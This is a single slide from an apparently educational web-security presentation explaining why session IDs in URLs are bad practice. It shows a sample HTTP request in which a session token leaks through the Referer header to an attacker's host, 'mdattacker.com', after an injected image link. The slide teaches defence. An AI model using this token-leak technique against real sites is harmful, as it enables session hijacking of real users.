

# 11
Bad Practice: Why?
Session ID in the URL exploited using ‘Non-Forged’ Cross Site Requests

Injected a link to a resource (image, etc) hosted on attacker’s server.
The session token is sent in the Referer Field

GET /mostlyharmless.aspx HTTP/1.1
Host: mdattacker.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:11.0) Gecko/20100101 Firefox/11.0
Accept: text/html,application/xhtml+xml,application/xml
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://apugowebf.mdseclabs.net/auth/379/Home.ashx?SessionId__379=A3C166C0210A12BF3C99005A561C6098
Connection: keep-alive